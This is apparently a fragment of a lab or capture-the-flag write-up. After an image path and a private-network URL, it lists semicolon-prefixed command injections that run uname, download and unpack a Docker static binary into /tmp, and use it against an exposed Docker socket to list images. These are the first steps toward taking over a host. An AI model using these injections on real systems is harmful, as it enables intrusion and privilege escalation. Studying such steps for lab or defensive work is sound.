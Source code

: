 http://192.168.1.50:1231/

;uname -a

;wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz


;tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/


;/tmp/docker/docker -H unix:///custom/docker/docker.sock images


